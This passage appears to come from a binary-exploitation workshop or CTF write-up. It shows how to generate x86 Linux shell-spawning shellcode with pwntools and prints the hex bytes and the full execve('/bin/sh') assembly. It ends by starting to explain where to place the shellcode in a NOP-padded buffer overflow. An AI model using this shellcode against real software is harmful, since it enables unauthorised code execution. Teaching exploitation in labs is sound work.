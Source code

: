 ### Shellcode?

#### Generate with pwntools shellcraft
```sh
$ pwn shellcraft i386.linux.sh
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/misskanari/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.0)
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
```
The above is a shellcode that will spawn a shell from within an x86 linux binary.

```sh
$ pwn shellcraft i386.linux.sh -f a
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```
The assembly code to form that shellcode can be seen by adding format option `-f a`
In the ssh shell, the pwntool is not complete hence it is incapable of generating shellcode.

Another option of generating shellcode is via Metasploit framework - msfvenom. How to use it can be found easily online.

The above shellcode can be further shorten to `execve('/bin//sh', NULL, NULL)`. How to write shellcode will take an entire workshop to explain.

### Where to place shellcode?

The length of the shellcode is smaller than our required padding size of 140.
Therefore, we can try to put the shellcode at the start of the buffer and pad the remaining with NOP (no operation) with '\x90'.
